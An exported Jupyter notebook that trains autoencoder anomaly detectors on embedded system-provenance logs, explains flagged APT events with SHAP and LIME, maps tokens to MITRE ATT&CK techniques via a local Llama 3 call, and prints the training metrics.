        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# ==========================================
# 4. LOCAL LLaMA 3 OLLAMA API FUNCTION
# ==========================================
def get_mitre_from_llm(raw_log, suspicious_word):
    prompt = f"""You are an expert cybersecurity threat hunter. 
An anomaly detection system flagged this system log as a potential APT attack: '{raw_log}'
A mathematical explainer identified the token '{suspicious_word}' as the primary driver of this anomaly.
Based on this token and the context of the log, identify the single most likely MITRE ATT&CK Tactic and Technique ID. 
Format your response exactly like this: [Technique ID] - [Technique Name]. Do not include any other text."""
    
    try:
        url = "http://localhost:11434/api/generate"
        payload = {"model": "llama3", "prompt": prompt, "stream": False, "temperature": 0.1}
        response = requests.post(url, json=payload, timeout=10)
        if response.status_code == 200:
            return response.json().get("response", "").strip()
        return f"[Error] Local API returned status {response.status_code}"
    except Exception as e:
        return f"[Error] Exception occurred: {str(e)}"

# Load the raw sentences
print("Loading all_data_with_sentences.pkl...")
try:
    with open("all_data_with_sentences.pkl", "rb") as f:
        all_data = pickle.load(f)
    print("✓ Data loaded successfully!")
except FileNotFoundError:
    print("[!] all_data_with_sentences.pkl not found.")

# ==========================================
# 5. THE END-TO-END PIPELINE WRAPPER 
# ==========================================
class APT_Explainer:
    def __init__(self, embedder_name, ae_model, device):
        self.device = device
        print(f"Loading {embedder_name} on {self.device.upper()}...")
        
        self.tokenizer = AutoTokenizer.from_pretrained(embedder_name, trust_remote_code=True)
        # Disabled Flash Attention for inference stability on Windows
        self.embedder = AutoModel.from_pretrained(
            embedder_name, 
            trust_remote_code=True, 
            use_flash_attn=False
        ).to(self.device)
        self.embedder.eval()
        self.ae_model = ae_model.to(self.device)
        self.ae_model.eval()

    def predict_anomaly_score(self, text_list):
        if isinstance(text_list, np.ndarray):
            text_list = text_list.tolist()
            
        text_list = [str(t) if len(str(t).strip()) > 0 else "[PAD]" for t in text_list]

        batch_size = 4 
        all_errors = []
        
        ac_device = 'cuda' if 'cuda' in self.device else 'cpu'
        
        for i in range(0, len(text_list), batch_size):
            batch_texts = text_list[i:i+batch_size]
            
            inputs = self.tokenizer(
                batch_texts, 
                padding=True, 
                truncation=True, 
                max_length=128, 
                return_tensors="pt"
            ).to(self.device)

            if "token_type_ids" in inputs:
                inputs["token_type_ids"] = torch.zeros_like(inputs["input_ids"]).to(self.device)

            with torch.amp.autocast(ac_device):
                with torch.inference_mode():
                    outputs = self.embedder(**inputs)
                    
                    token_embeddings = outputs.last_hidden_state
                    attention_mask = inputs['attention_mask'].unsqueeze(-1).float()
                    
                    sum_embeddings = torch.sum(token_embeddings * attention_mask, dim=1)
                    sum_mask = torch.clamp(attention_mask.sum(dim=1), min=1e-9)
                    embeddings = sum_embeddings / sum_mask
                    
                    reconstructed = self.ae_model(embeddings)
                    errors = torch.mean((embeddings - reconstructed) ** 2, dim=1)
                    all_errors.extend(errors.cpu().numpy())
                
        return np.array(all_errors)

# ==========================================
# 6. INITIALIZE MODELS & LOAD WEIGHTS
# ==========================================
print("-" * 60)
print("INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)")
print("-" * 60)

ae_model = VanillaAE(INPUT_DIM)
weight_filename = f"{TARGET_PERFORMER}_{TARGET_CONTEXT}_jina_{TARGET_AE_MODEL}.pth"
weight_path = os.path.join("saved_weights_jina_v3", weight_filename)

if not os.path.exists(weight_path):
    print(f"[!] CRITICAL ERROR: Could not find weights at {weight_path}")
else:
    state_dict = torch.load(weight_path, map_location='cpu')
    ae_model.load_state_dict(state_dict)
    ae_model = ae_model.to(DEVICE)
    print(f"✓ Loaded weights safely: {weight_path}")

    pipeline = APT_Explainer(EMBEDDER_NAME, ae_model, DEVICE)
    shap_explainer = shap.Explainer(pipeline.predict_anomaly_score, pipeline.tokenizer)
    lime_explainer = LimeTextExplainer(class_names=['Normal', 'Anomaly'])

    def lime_predict_wrapper(text_list):
        errors = pipeline.predict_anomaly_score(text_list)
        probs = 1 / (1 + np.exp(-errors))
        return np.vstack((1 - probs, probs)).T

    # ==========================================
    # 7. EXPLAIN THE ANOMALY
    # ==========================================
    try:
        df = all_data[TARGET_PERFORMER][TARGET_CONTEXT]
        anomalies_df = df[df['label'] == 1]
        
        if anomalies_df.empty:
            print(f"[!] No anomalies found.")
        else:
            raw_apt_log = [anomalies_df['sentence'].iloc[0]]
            print(f"\nAnalyzing True Positive Anomaly:\n>>> '{raw_apt_log[0]}'")
            
            # ==========================================
            # 8. RUN LIME
            # ==========================================
            print("\n" + "="*80)
            print("LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)
            
            print("Calculating LIME perturbations...")
            for text in raw_apt_log:
                lime_exp = lime_explainer.explain_instance(text, lime_predict_wrapper, num_features=5)
                
                print("Top LIME Anomaly Drivers:")
                for word, weight in lime_exp.as_list():
                    clean_word = word.strip().lower()
                    if len(clean_word) > 1:
                        print(f" -> '{clean_word}' (LIME Weight: {weight:+.4f})")
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(text, clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MITRE MAPPING: {mitre_technique}")
                                mapped = True

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MAPPING: {mitre_technique}")
                                    mapped = True
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

            # ==========================================
            # 9. RUN SHAP 
            # ==========================================
            print("\nCalculating SHAP values (Optimized speed...)")
            shap_values = shap_explainer(raw_apt_log, max_evals=100)
            
            print("\n" + "="*80)
            print("SHAP EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)

            for i, text in enumerate(raw_apt_log):
                words = shap_values.data[i]
                impact_scores = shap_values.values[i]
                word_impacts = sorted(zip(words, impact_scores), key=lambda x: abs(x[1]), reverse=True)
                
                print("Top SHAP Anomaly Drivers:")
                for word, score in word_impacts[:5]: 
                    clean_word = word.strip().lower()
                    if len(clean_word) > 1:
                        print(f" -> '{clean_word}' (Anomaly Impact: {score:+.4f})")
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(raw_apt_log[0], clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MITRE MAPPING: {mitre_technique}")
                                mapped = True

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MAPPING: {mitre_technique}")
                                    mapped = True
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

    except NameError:
        print("[!] The 'all_data' variable is not loaded.")

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\tqdm\auto.py:21: TqdmWarning: IProgress not found. Please update jupyter and ipywidgets. See https://ipywidgets.readthedocs.io/en/stable/user_install.html
  from .autonotebook import tqdm as notebook_tqdm


Loading all_data_with_sentences.pkl...
✓ Data loaded successfully!
------------------------------------------------------------
INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)
------------------------------------------------------------
✓ Loaded weights safely: saved_weights_jina_v3\theia_ProcessAll_jina_Baseline.pth
Loading jinaai/jina-embeddings-v3 on CUDA...


`torch_dtype` is deprecated! Use `dtype` instead!
Loading weights: 100%|██████████| 492/492 [00:00<00:00, 4151.47it/s]



Analyzing True Positive Anomaly:
>>> 'Process has event clone and event mmap and event mprotect and event open and event read and event recvfrom and executable /home/admin/profile and executable /home/admin/clean.1 and executable N/A.1 and network 161.116.88.72 and network 80'

LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING
Calculating LIME perturbations...
Top LIME Anomaly Drivers:
 -> 'event' (LIME Weight: -0.0083)
    [!] STATIC MAPPING: T1055 - Process Injection / Execution
    [!] STATIC MAPPING: T1059 - Command and Scripting Interpreter
    [!] STATIC MAPPING: T1055 - Process Injection / Execution
    [!] STATIC MAPPING: T1055 - Process Injection
 -> 'and' (LIME Weight: -0.0061)
    [i] No MITRE mapping found.
 -> 'network' (LIME Weight: -0.0043)
    [!] STATIC MAPPING: T1090 - Proxy / Internal Network Communication
    [!] STATIC MAPPING: T1071.001 - Application Layer Protocol: Web Protocols
 -> 'admin' (LIME Weight: -0.0033)
    [i] No MITRE mapping found.
 -> 'home' (LIME Weight

### 8. `intfloat/multilingual-e5-large`

#### Training and saving `.pth`

In [7]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
import torch.optim as optim
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import roc_auc_score, ndcg_score, dcg_score

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Updated directories for Multilingual E5 Large
BASE_DIR = "final_train_test_split_multilingual_e5"
RESULTS_FILE = "results_all_autoencoders_multilingual_e5.csv"
MODEL_SAVE_DIR = "saved_weights_multilingual_e5"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# Hyperparameters
BATCH_SIZE = 128    
EPOCHS = 15         
LR = 0.001          
# [CRITICAL] intfloat/multilingual-e5-large uses 1024 dimensions
INPUT_DIM = 1024    

# Specialty Hyperparameters
NOISE_FACTOR = 0.2  # Denoising AE
SPARSE_REG = 1e-4   # Sparse AE L1 penalty
BETA = 4.0          # Beta-VAE weight
CAE_LAMBDA = 1e-4   # Contractive AE Jacobian penalty

os.makedirs(MODEL_SAVE_DIR, exist_ok=True)
print(f"Running on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES
# ==========================================

# --- 1, 3, 4, 10, 11. Vanilla AE (Used for Baseline, DAE, Sparse, Robust, Contractive) ---
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# --- 2. Deep SVDD (Encoder mapping to hypersphere center) ---
class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 128) # Small latent space
        )
    def forward(self, x):
        return self.encoder(x)

# --- 5, 6. Variational AE (Used for VAE and Beta-VAE) ---
class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)

    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)

    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std

    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

# --- 7. GMVAE (Simplified Gaussian Mixture VAE) ---
class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu = nn.Linear(1024, 256)
        self.logvar = nn.Linear(1024, 256)
        self.pi = nn.Linear(1024, n_components) # Categorical prior
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
        
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

# --- 8. Attention AE ---
class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
        
    def forward(self, x):
        # Self-attention requires 3D shape: (batch, seq, feature)
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        attn_out = attn_out.squeeze(1)
        return self.decoder(self.encoder(attn_out))

# --- 9. LSTM AE ---
class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
        
    def forward(self, x):
        # Fake sequence length of 1
        x_seq = x.unsqueeze(1)
        _, (hidden, _) = self.encoder(x_seq)
        # Repeat hidden state for decoder (seq_len = 1)
        hidden_rep = hidden[-1].unsqueeze(1)
        out, _ = self.decoder(hidden_rep)
        return out.squeeze(1)


# ==========================================
# 3. GENERIC TRAINING FUNCTION
# ==========================================
def train_model(model_name, X_train, X_test, y_test, performer, context):
    
    # Initialize appropriate model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    optimizer = optim.Adam(model.parameters(), lr=LR)
    criterion = nn.L1Loss() if model_name == 'Robust' else nn.MSELoss()

    train_loader = DataLoader(TensorDataset(torch.FloatTensor(X_train).to(DEVICE)), batch_size=BATCH_SIZE, shuffle=True)
    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()
    model.train()
    
    for epoch in range(EPOCHS):
        for batch in train_loader:
            x_batch = batch[0]
            model_input = x_batch
            
            if model_name == 'DAE':
                model_input = x_batch + torch.randn_like(x_batch) * NOISE_FACTOR

            optimizer.zero_grad()
            
            # Forward & Loss branching
            if model_name == 'Deep SVDD':
                z = model(model_input)
                loss = torch.mean(torch.sum((z - center) ** 2, dim=1))
            
            elif model_name in ['VAE', 'Beta-VAE']:
                recon, mu, logvar = model(model_input)
                recon_loss = nn.functional.mse_loss(recon, x_batch, reduction='sum')
                kld_loss = -0.5 * torch.sum(1 + logvar - mu.pow(2) - logvar.exp())
                beta = BETA if model_name == 'Beta-VAE' else 1.0
                loss = recon_loss + beta * kld_loss
                
            elif model_name == 'GMVAE':
                recon, mu, logvar, pi = model(model_input)
                loss = nn.functional.mse_loss(recon, x_batch) 
                
            else:
                recon = model(model_input)
                loss = criterion(recon, x_batch)
                
                # Special Penalties
                if model_name == 'Sparse':
                    l1_penalty = sum(p.abs().sum() for p in model.encoder.parameters())
                    loss += SPARSE_REG * l1_penalty
                elif model_name == 'Contractive':
                    hidden = model.encoder(x_batch)
                    loss += CAE_LAMBDA * torch.sum(hidden ** 2)

            loss.backward()
            optimizer.step()
            
    train_time = time.time() - start_time

    # --- SAVE WEIGHTS FOR SHAP/LIME ---
    weight_filename = f"{performer}_{context}_{model_name.replace(' ', '')}.pth"
    torch.save(model.state_dict(), os.path.join(MODEL_SAVE_DIR, weight_filename))

    # --- EVALUATION ---
    model.eval()
    errors = []
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # --- METRICS CALCULATION ---
    try:
        auc = roc_auc_score(y_test, errors)
    except:
        auc = 0.0

    try:
        # Calculate DCG based on model predictions (errors used as scores)
        dcg = dcg_score([y_test], [errors])
        # Calculate IDCG using the true labels as the perfect ranking scores
        idcg = dcg_score([y_test], [y_test])
        # nDCG is the normalized ratio
        ndcg = ndcg_score([y_test], [errors])
    except Exception as e:
        dcg, idcg, ndcg = 0.0, 0.0, 0.0

    return {
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "DCG": round(dcg, 4),
        "IDCG": round(idcg, 4),
        "nDCG": round(ndcg, 4),
        "Time(s)": round(train_time, 2)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    # Ignore hidden folders like .cache
    performers = [
        p for p in os.listdir(BASE_DIR) 
        if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')
    ]
    
    for performer in performers:
        train_dir = os.path.join(BASE_DIR, performer, "train")
        test_dir = os.path.join(BASE_DIR, performer, "test")
        
        if not os.path.exists(train_dir) or not os.path.exists(test_dir):
            print(f"  [!] Skipping '{performer}' - Train or Test subfolders missing.")
            continue
            
        files = [f for f in os.listdir(train_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nProcessing: {performer.upper()} - {context}")
            
            try:
                with open(os.path.join(train_dir, file), 'rb') as f:
                    X_train = pickle.load(f)['X']
                with open(os.path.join(test_dir, file), 'rb') as f:
                    pkg = pickle.load(f)
                    X_test = pkg['X']
                    y_test = pkg['y']
                
                print(f"  Samples: {len(X_train)} Train | {len(X_test)} Test")

                for m_name in models_to_run:
                    print(f"    -> Training {m_name}...", end=" ")
                    res = train_model(m_name, X_train, X_test, y_test, performer, context)
                    
                    res['Performer'] = performer
                    res['Context'] = context
                    all_results.append(res)
                    print(f"Done. AUC: {res['AUC-ROC']} | nDCG: {res['nDCG']} (DCG: {res['DCG']}, IDCG: {res['IDCG']})")

            except Exception as e:
                print(f"    [!] Failed: {e}")

# ==========================================
# 5. SAVE RESULTS
# ==========================================
if all_results:
    df_res = pd.DataFrame(all_results)
    # Reordered columns to include all metrics cleanly
    df_res = df_res[['Performer', 'Context', 'Model', 'AUC-ROC', 'DCG', 'IDCG', 'nDCG', 'Time(s)']]
    df_res.to_csv(RESULTS_FILE, index=False)
    
    print("\n" + "="*60)
    print("FINAL RESULTS SUMMARY")
    print("="*60)
    print(df_res.to_string(index=False))
    print(f"\nSaved metrics to {RESULTS_FILE}")
    print(f"Saved model weights to ./{MODEL_SAVE_DIR}/")
else:
    print("No results to save.")

Running on Device: CUDA
------------------------------------------------------------

Processing: 5DIR - ProcessAll
  Samples: 8913 Train | 2238 Test
    -> Training Baseline... Done. AUC: 0.9424 | nDCG: 0.3879 (DCG: 1.6503, IDCG: 4.2545)
    -> Training Sparse... Done. AUC: 0.8674 | nDCG: 0.3722 (DCG: 1.5834, IDCG: 4.2545)
    -> Training Deep SVDD... Done. AUC: 0.9574 | nDCG: 0.397 (DCG: 1.6891, IDCG: 4.2545)
    -> Training DAE... Done. AUC: 0.906 | nDCG: 0.3723 (DCG: 1.5841, IDCG: 4.2545)
    -> Training VAE... Done. AUC: 0.776 | nDCG: 0.2975 (DCG: 1.2658, IDCG: 4.2545)
    -> Training Beta-VAE... Done. AUC: 0.8194 | nDCG: 0.3551 (DCG: 1.5108, IDCG: 4.2545)
    -> Training GMVAE... Done. AUC: 0.8739 | nDCG: 0.3724 (DCG: 1.5843, IDCG: 4.2545)
    -> Training Attention AE... Done. AUC: 0.9396 | nDCG: 0.3826 (DCG: 1.6276, IDCG: 4.2545)
    -> Training LSTMAE... Done. AUC: 0.9383 | nDCG: 0.3826 (DCG: 1.6278, IDCG: 4.2545)
    -> Training Robust... Done. AUC: 0.9464 | nDCG: 0.3918 (DCG:

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Loca

Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Beta-VAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training GMVAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Attention AE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training LSTMAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Robust... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Contractive... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)

Processing: THEIA - ProcessAll


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


  Samples: 223415 Train | 55954 Test
    -> Training Baseline... Done. AUC: 0.994 | nDCG: 0.9354 (DCG: 19.5867, IDCG: 20.9387)
    -> Training Sparse... Done. AUC: 0.9365 | nDCG: 0.4199 (DCG: 8.7913, IDCG: 20.9387)
    -> Training Deep SVDD... Done. AUC: 0.7749 | nDCG: 0.756 (DCG: 15.8293, IDCG: 20.9387)
    -> Training DAE... Done. AUC: 0.9825 | nDCG: 0.6826 (DCG: 14.2924, IDCG: 20.9387)
    -> Training VAE... Done. AUC: 0.941 | nDCG: 0.418 (DCG: 8.7526, IDCG: 20.9387)
    -> Training Beta-VAE... Done. AUC: 0.935 | nDCG: 0.416 (DCG: 8.7113, IDCG: 20.9387)
    -> Training GMVAE... Done. AUC: 0.9375 | nDCG: 0.4206 (DCG: 8.8075, IDCG: 20.9387)
    -> Training Attention AE... Done. AUC: 0.9358 | nDCG: 0.4207 (DCG: 8.8082, IDCG: 20.9387)
    -> Training LSTMAE... Done. AUC: 0.9969 | nDCG: 0.9121 (DCG: 19.0984, IDCG: 20.9387)
    -> Training Robust... Done. AUC: 0.9979 | nDCG: 0.9565 (DCG: 20.0286, IDCG: 20.9387)
    -> Training Contractive... Done. AUC: 0.9365 | nDCG: 0.4203 (DCG: 8.8015, 

In [16]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import (
    roc_auc_score, 
    average_precision_score, 
    precision_recall_curve,
    precision_score, 
    recall_score, 
    f1_score, 
    accuracy_score
)

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Parameterized for easy switching between models
EMBEDDING_NAME = "multilingual_e5" 

BASE_DIR = f"final_train_test_split_{EMBEDDING_NAME}"
MODEL_SAVE_DIR = f"saved_weights_{EMBEDDING_NAME}"
RESULTS_FILE = f"NEW_comprehensive_metrics_{EMBEDDING_NAME}.csv"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [CRITICAL UPDATE] intfloat/multilingual-e5-large uses 1024 dimensions
INPUT_DIM = 1024 

print(f"Running INFERENCE ONLY for {EMBEDDING_NAME.upper()} on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES (Must match exactly)
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        return self.decoder(self.encoder(x))

class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 128))
    def forward(self, x):
        return self.encoder(x)

class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)
    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)
    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std
    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu, self.logvar, self.pi = nn.Linear(1024, 256), nn.Linear(1024, 256), nn.Linear(1024, n_components)
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
    def forward(self, x):
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        return self.decoder(self.encoder(attn_out.squeeze(1)))

class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
    def forward(self, x):
        _, (hidden, _) = self.encoder(x.unsqueeze(1))
        out, _ = self.decoder(hidden[-1].unsqueeze(1))
        return out.squeeze(1)


# ==========================================
# 3. FAST EVALUATION FUNCTION
# ==========================================
def evaluate_model(model_name, X_test, y_test, performer, context):
    
    # 1. Initialize empty model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
